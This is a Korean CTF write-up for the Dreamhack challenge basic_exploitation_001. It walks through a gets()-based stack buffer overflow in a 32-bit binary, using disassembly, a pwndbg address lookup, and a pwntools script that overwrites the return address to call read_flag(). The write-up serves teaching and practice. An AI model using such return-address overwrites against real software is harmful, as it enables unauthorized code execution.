 # [basic_exploitation_001](https://dreamhack.io/wargame/challenges/3/) 
 
 문제 파일의 코드는 다음과 같다. 주석은 코드의 해석을 위하여 본인이 직접 작성한 것이다.

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0); // 표준 입력에서 버퍼를 사용하지 않는다. 버퍼를 지나지 않고 요청 즉시 작업이 진행된다. 
    setvbuf(stdout, NULL, _IONBF, 0); // 표준 출력에서 버퍼를 사용하지 않는다. 버퍼를 지나지 않고 요청 즉시 작업이 진행된다.

    signal(SIGALRM, alarm_handler); // SIGALRM이 발생하면 alarm_handler를 실행한다.
    alarm(30); // 30초 후에 SIGALRM을 발생시킴.
}


void read_flag() {
    system("cat /flag"); //shell 명령어 "cat /flag" 실행
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```

## Exploit strategy
 read_flag() 함수를 실행시켜 shell 명령어 "cat /flag"를 실행하는 것이 이 문제의 목표라고 할 수 있다. 우선 pwndbg를 통하여 주어진 바이너리 파일의 main함수를 disassemble하여 살펴보자. 
 ```assembly
   0x080485cc <+0>:     push   ebp
   0x080485cd <+1>:     mov    ebp,esp
   0x080485cf <+3>:     add    esp,0xffffff80
   0x080485d2 <+6>:     call   0x8048572 <initialize>
   0x080485d7 <+11>:    lea    eax,[ebp-0x80]
   0x080485da <+14>:    push   eax
   0x080485db <+15>:    call   0x80483d0 <gets@plt>
   0x080485e0 <+20>:    add    esp,0x4
   0x080485e3 <+23>:    mov    eax,0x0
   0x080485e8 <+28>:    leave
   0x080485e9 <+29>:    ret
```
lea eax,[ebp-0x80]를 보면 오버플로우를 발생시킬 버퍼는 ebp-0x80에 위치함을 알 수 있다. 스택 프레임의 구조를 떠올려보자. ebp에는 SFP가 저장되므로 ebp+0x4(공격 대상 컴퓨터는 32bit이므로 포인터 크기는 4바이트이기 때문이다.)에 return address가 저장될 것임을 알 수 있다.
return address의 값을 read_flag() 함수의 주소로 채워주면 이 문제의 목표인 shell 명령어 "cat /flag"를 실행할 수 있을 것이다. pwndbg를 통하여 read_flag()의 주소를 알아보자.
```
pwndbg> print read_flag
$1 = {<text variable, no debug info>} 0x80485b9 <read_flag>
```
주소는 0x80485b9이다. 이제 Exploit script를 작성해보자. 

## Exploit script

```python
# importing pwntools
from pwn import* 

# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용한다. 매개변수는 각각 호스트와 포트넘버이다.
p = remote('host1.dreamhack.games',15845) 

# 공격 대상 아키텍쳐는 x86
context.arch = 'i386' 

# payload 작성
payload = b"\x90"*132 # ebp+0x3까지 담을 더미 값 
payload += p32(0x80485b9) # return address에 들어갈 read_flag() 함수의 주소를 32bit packing(little endian의 byte 배열로 변경)

# payload + '\n'을 전송
p.sendline(payload) 

# 셸을 획득했으므로 interactive 함수 사용
p.interactive()
```
